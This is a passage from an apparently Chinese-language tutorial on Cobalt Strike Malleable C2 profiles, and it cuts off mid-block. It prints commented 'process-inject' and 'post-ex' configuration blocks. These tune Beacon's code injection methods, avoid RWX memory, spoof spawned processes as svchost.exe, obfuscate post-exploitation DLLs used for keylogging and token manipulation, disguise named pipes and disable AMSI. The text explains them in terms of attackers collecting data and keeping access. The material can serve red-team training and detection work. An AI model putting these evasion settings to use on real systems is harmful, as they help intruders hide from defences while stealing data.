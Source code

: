 ```apl
process-inject {
    # 设置远程内存分配技术
    set allocator "VirtualAllocEx";

    # 形状注入内容和属性
    set min_alloc "7814";  # 设置内存分配的最小值为7814字节
    set userwx    "false";  # 分配的内存不应具有读、写和执行（RWX）权限
    set startrwx "false";  # 注入代码前，内存不应被设置为具有读、写和执行（RWX）权限

    transform-x86 {
        # 在注入的代码前添加 NOP （无操作）指令
        prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; // NOP, NOP!
    }

    transform-x64 {
        # 在注入的代码前添加 NOP （无操作）指令
        prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; // NOP, NOP!
    }

    // 指定在远程进程中执行代码的方法
    execute {
        CreateThread "ntdll.dll!RtlUserThreadStart+0x2285"; # 使用CreateThread函数执行代码
        NtQueueApcThread-s;  # 使用NtQueueApcThread-s函数执行代码
        SetThreadContext; # 使用SetThreadContext函数执行代码
        CreateRemoteThread; # 使用CreateRemoteThread函数执行代码
        CreateRemoteThread "kernel32.dll!LoadLibraryA+0x1000"; # 使用CreateRemoteThread函数并偏移执行代码
        RtlCreateUserThread; # 使用RtlCreateUserThread函数执行代码
    }
}

```

注：`transform-x86`和`transform-x64`代码块用于对注入的代码进行转换，可以向Beacon注入的内容添加东西，你可以使用`append`和`prepend`命令来向注入的代码前或后添加额外的代码，又或者使用`replace-str`和`replace-all-str`命令在注入的代码中替换字符串



### post-ex

`post-ex`代码块在Cobalt Strike的Beacon payload中是用来配置后期执行（post-exploitation）阶段的一些参数。这些参数主要影响和控制如何创建新的进程、怎样注入和执行代码、如何混淆和隐藏行为以及如何收集和传输数据等。

一般而言，在一个成功的网络入侵中，攻击者在拥有目标系统的访问权限之后，通常需要进行一系列的后期执行活动，例如执行更多的攻击、收集数据、建立持久性访问等。这些活动需要对目标系统进行一系列复杂的操作，如创建和管理新的进程、注入和执行代码、使用不同的通信方式来传输数据等。`post-ex`代码块就是用来配置和控制这些操作的一系列参数。

```apl
post-ex {
    # 控制我们产生的临时进程。Beacon将产生一个临时进程，将shellcode注入其中，并让新的进程执行这个shellcode。
    set spawnto_x86 "%windir%\\syswow64\\svchost.exe"; # 对于32位payloads
    set spawnto_x64 "%windir%\\sysnative\\svchost.exe"; # 对于64位payloads
    
    # 改变我们的post-ex DLLs的权限和内容。此设置启用对Beacon用于post-ex任务的DLLs(如键盘记录或令牌操作)的混淆。
    set obfuscate "true";
    
    # 更改我们的post-ex输出命名管道名称。此设置允许控制Beacon用于从作业中检索输出的命名管道。
    set pipename "srvsvc-1-5-5-0####";
    
    # 将关键函数指针从Beacon传递到其子作业。启用smart注入将使Beacon将带有关键函数指针的数据结构传递给其post-ex作业。
    set smartinject "true";
    
    # 允许多线程post-ex DLLs产生带有伪装起始地址的线程。
    # set thread_hint "module!function+0x##";
    
    # 在powerpick、execute-assembly和psinject中禁用AMSI。此选项将会在目标进程中修补AMSI。
    set amsi_disable "true";
    
```